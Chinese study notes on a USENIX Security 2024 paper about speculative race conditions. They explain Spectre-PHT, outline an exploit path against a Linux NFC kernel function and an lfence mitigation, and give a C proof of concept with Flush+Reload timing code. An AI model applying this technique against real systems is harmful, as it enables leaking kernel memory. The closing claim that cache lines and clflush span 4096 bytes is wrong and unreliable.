










# 论文
[https://www.usenix.org/system/files/usenixsecurity24-ragab.pdf](https://www.usenix.org/system/files/usenixsecurity24-ragab.pdf)
# 背景
## Spectre-PHT（瞬态执行）

为了提高性能，现代 CPU 会推测性地执行指令（即 CPU 提前执行分支可能的结果）。
推测执行有两种可能的结果：
a) 指令被正常提交。
b) 指令因预测错误而被丢弃，产生瞬态执行，但相关的缓存状态会被保留。
```cpp
if (x < array1_size) {
    y = array2[array1[x] * 0x1000];
}
```
1. x 由攻击者控制，经过多次 x < array1_size 的迭代后，CPU 预测 x < array1_size 仍然很可能成立，于是执行 if 内的语句。
2. 如果 x 越界，但 CPU 仍假设 x < array1_size 并执行 if 内的语句，那么 array1[x] 的越界内容会被带入缓存，随后 array2[array1[x] * 0x1000] 访问对应位置。
3. 通过侧信道，如果访问 array2 的某个位置更快，那么该位置很可能对应 array1[x] 的越界内容，即内容被泄露。

## 并发漏洞


##   SRC/SCUAF 及实验条件
SRC：两个线程同时访问同一内存位置，一个执行写操作，另一个进行瞬态访问，此时瞬态访问可以绕过互斥锁。这会产生推测性并发释放后使用（Speculative Concurrent Use-After-Free，SCUAF），与并发漏洞类似。

在开启所有缓解措施、运行于 Intel x86-64 的 Linux 内核上，非特权用户通过系统调用触发 SRC 来泄露数据。

# 工作流程


函数 nfc_hci_msg_tx_work 是 Linux 内核中近场通信（NFC）驱动核心的主机控制器接口（HCI）层实现的一部分，负责处理从内核发往 NFC 设备的待发送消息。由于我们没有本地执行该函数所需的 NFC 硬件，因此在分析过程中添加了一个系统调用来到达这条代码路径。


## 创建无界 UAF 窗口


目标：在 free 与置 NULL 之间制造一个很大的时间窗口。

定时器到期会触发中断。

首先设置定时器在 kfree 期间触发中断，但由于持有锁，中断会等到锁释放后才进入定时器的中断处理函数，而该处理函数的执行时间可以被延长。在此期间，其他核通过系统调用向受害核发送中断，使其陷入无尽的中断中。


##  构造推测性竞争条件


锁在宏观层面没有问题，但在微观层面可能存在问题。

第四行的分支最终检查的是 lock cmpxchgq 指令的结果，该指令原子地比较 mutex ptr 的当前值与旧值 old，若相等则说明可以上锁，将互斥锁设为新值 new 并允许访问受保护的临界区，否则不允许。

我们可以多次获取互斥锁，从而在推测执行期间获取互斥锁并进入受保护的临界区。

许多其他常见的写端同步原语也是用条件分支实现的，因此都很容易受到推测性竞争条件的影响。

实验测量了不同架构、不同核与线程布置下瞬态执行期间可执行的指令数量。


当两个线程跨核运行时，窗口通常更大，这说明在推测终止之前，缓存一致性协议在跨核传播锁的架构状态方面起着至关重要的作用。（我的理解：第一个执行流上锁后，另一个开始推测执行，原执行流检查锁时得知已上锁的状态较慢，所以此时推测执行已经执行了很多指令。）

## 利用推测性竞争条件


1. 分配 hdev 和 hdev->cmd_pending_msg。
2. 错误训练互斥锁的条件分支。
3. 启动受害线程和风暴线程：设置定时器并启动目标函数。
4. free 之后进入定时器中断处理函数，此时窗口被扩大，其他函数运行。
5. 在该窗口内创建与 hci_msg 对应的 msgbuf。
6. 使用 msgsnd 分配与 hdev->cmd_pending_msg 大小相同的对象，获得刚刚被释放的内存，并设置 cb 和 cb_context。
7. nfc_hci_msg_tx_work 触发瞬态推测执行，劫持控制流。


# poc

```cpp
#include <stdio.h>
#include <pthread.h>
#include <assert.h>
#include <stdlib.h>
#include <string.h>

#include "fr.h"

//
#define FR_BUFF_SIZE (2 * 4096)
char fr_buff[FR_BUFF_SIZE] __attribute__((aligned(4096)));
//为了准确测量不同位置的访问时间差异，确保每个缓存行位于单独的页面上是非常重要的。这样可以避免由于跨页引起的额外延迟干扰测量结果。
volatile int r __cacheline_aligned;
//
pthread_mutex_t lock;

/* 与小工具相关的代码/数据。 */
void my_callback()
{
}

void evil_callback()
{
    // 访问4096，其所在的起始页长放入缓存中
    maccess(&fr_buff[4096]);
}

typedef void (*cb_t)();
typedef struct data_s
{
    cb_t callback;
} data_t;
data_t *data_ptr;

/* 辅助函数。 */
void train_lock()
{
    int i;
    for (i = 0; i < 10; i++)
    {
        pthread_mutex_lock(&lock);
        pthread_mutex_unlock(&lock);
    }
}

void init()
{
    //数组初始化赋值才访问对应元素，不然直接访问未初始化会出现莫名其妙问题。所以按照正常流程先初始化再访问 !!!!

    memset(fr_buff, 'x', FR_BUFF_SIZE);
    //初始化后需要清空其所在的缓存
    // int i=4096*2;
    // printf("i %lu  buff %lu\n",i,probe_timing(&fr_buff[i]));
    flush(&fr_buff[0]);
    flush(&fr_buff[4096]);
    // int i=4096*2-10;
    // printf("i %lu  buff %lu\n",i,probe_timing(&fr_buff[i]));
    // 初始化锁 
    int r;
    r = pthread_mutex_init(&lock, NULL);
 
    // 初始化结构体
    data_ptr = malloc(sizeof(data_t));
    data_ptr->callback = my_callback;
    
}

int main()
{
    init();
    // 线程1：训练 pthread_mutex_lock(&lock)和pthread_mutex_unlock中的代码总是成功
    train_lock();

    // 线程1：获取锁，释放结构体
    pthread_mutex_lock(&lock);
    free(data_ptr);

    // 线程2：线程1在free()之后但在状态更新和锁释放之前被中断。然后，线程2重用内存以控制未来的悬挂指针引用（并劫持控制流到恶意回调）。 
    data_t *p = malloc(sizeof(data_t));
    p->callback = evil_callback;
    
    // 线程2：推测执行绕过上锁，并调用回调函数,这只会执行一个UAF（即，推测性控制流劫持
    r = pthread_mutex_trylock(&lock);//如果是pthread_mutex_lock(&lock);那么预测执行会回滚到pthread_mutex_lock(&lock);那么将陷入死循环
    if (r == 0)
    {
        data_ptr->callback();
        // pthread_mutex_unlock(&lock); 推测执行的指令数量根本不满足执行完pthread_mutex_unlock
    }
    

    // 线程1：恢复执行并更新NULL
    data_ptr = NULL;
    pthread_mutex_unlock(&lock);

    // 线程2：通过F+R测信道知道访问内存的时间较短的位置为推测执行中访问的位置
    unsigned long t1 = probe_timing(&fr_buff[0]);
    unsigned long t2 = probe_timing(&fr_buff[4096]);
    if (t2 < t1)
    {
        printf("得到信号 (%lu < %lu): 内存重用、推测性UAF以及推测性控制流劫持成功触发。\n", t2, t1);
    }
    else
    {
        printf("意外的时间：%lu << %lu\n", t1, t2);
    }

    return 0;
}
```
头文件

```cpp
#ifndef FR_H
#define FR_H

// 定义 likely 宏，用于优化条件分支预测。
#define likely(expr) __builtin_expect(!!(expr), 1)

// 定义缓存行对齐属性宏，确保变量按照64字节边界对齐，并放置在特定的数据段中。
#define __cacheline_aligned \
  __attribute__((__aligned__(64), \
		 __section__(".data..cacheline_aligned")))

// 探测访问给定地址所需的时间。该函数使用汇编指令来测量读取一个内存位置前后的时钟周期数。
static inline unsigned long probe_timing(char *adrs) {
    volatile unsigned long time;

    asm __volatile__(
        "    mfence             \n" // 确保所有之前的存储操作已完成。
        "    lfence             \n" // 确保所有之前加载操作已完成。
        "    rdtsc              \n" // 读取时间戳计数器。
        "    lfence             \n" // 确保此指令前的所有加载都已完成。
        "    movl %%eax, %%esi  \n" // 将低32位时间戳保存到 ESI 寄存器。
        "    movl (%1), %%eax   \n" // 从内存位置加载数据（触发缓存行为）。
        "    lfence             \n" // 确保此指令前的所有加载都已完成。
        "    rdtsc              \n" // 再次读取时间戳计数器。
        "    subl %%esi, %%eax  \n" // 计算两次读取之间的时间差。
        "    clflush 0(%1)      \n" // 清除指定内存位置的缓存行。
        : "=a" (time)            // 输出参数：EAX 寄存器值赋给 'time'。
        : "c" (adrs)             // 输入参数：'adrs' 的值通过 ECX 寄存器传递。
        : "%esi", "%edx"         // 被修改的寄存器列表。
    );
    return time;
}

// 返回当前CPU的时钟周期数。rdtsc 指令读取时间戳计数器，它记录了自系统启动以来的时钟周期数。
static inline unsigned long long rdtsc() {
	unsigned long long a, d;
	asm volatile ("mfence"); // 确保所有之前的存储操作已完成。
	asm volatile ("rdtsc" : "=a" (a), "=d" (d)); // 读取时间戳计数器，分别放入 a 和 d。
	a = (d<<32) | a; // 组合 EDX:EAX 成一个64位时间戳。
	asm volatile ("mfence"); // 确保所有之前的存储操作已完成。
	return a;
}

// maccess 宏定义用于触发电平1缓存未命中，模拟内存访问。
#define maccess(p) \
  asm volatile ("movq (%0), %%rax\n" \
    : \
    : "c" (p) \
    : "rax")

// flush 宏定义用于清除指定内存位置的缓存行。
#define flush(p) \
    asm volatile ("clflush 0(%0)\n" \
      : \
      : "c" (p) \
      : "rax")

#endif
```


# 缓解措施

1. **序列化指令（lfence）**：
   - `lfence` 是一条序列化指令，主要用于控制指令流的顺序。它确保在其之前的所有操作完成后，才执行之后的任何指令。
   - 通过在 `cmpxchg` 之后插入 `lfence`，确保上锁操作完成后，后续操作不会被提前执行。这可以防止处理器在锁机制确认之前推测执行任何临界区代码。

2. **实现细节**：
   - 修改了 Linux 内核中的 `arch/x86/include/asm/cmpxchg.h` 文件。
   - 具体来说，在 `__raw_cmpxchg` 和 `__raw_try_cmpxchg` 汇编宏中添加了 `lfence` 指令。
   - 这些宏用于实现所有写端同步原语，通过这种方式，所有相关的同步操作都得到了保护。

但内核性能下降了 5%。


# flush and reload
[22.5 Flush and Reload](https://mit-public-courses-cn-translatio.gitbook.io/mit6-s081/lec22-meltdown-robert/22.5-flush-and-reload)
[Flush+Reload 学习笔记](https://zqy.ink/2023/07/18/flush_reload/)

缓存一次加载 4096 字节，即一页，到缓存中。
clflush 清除缓存行，同样是 4096 字节，即一页。

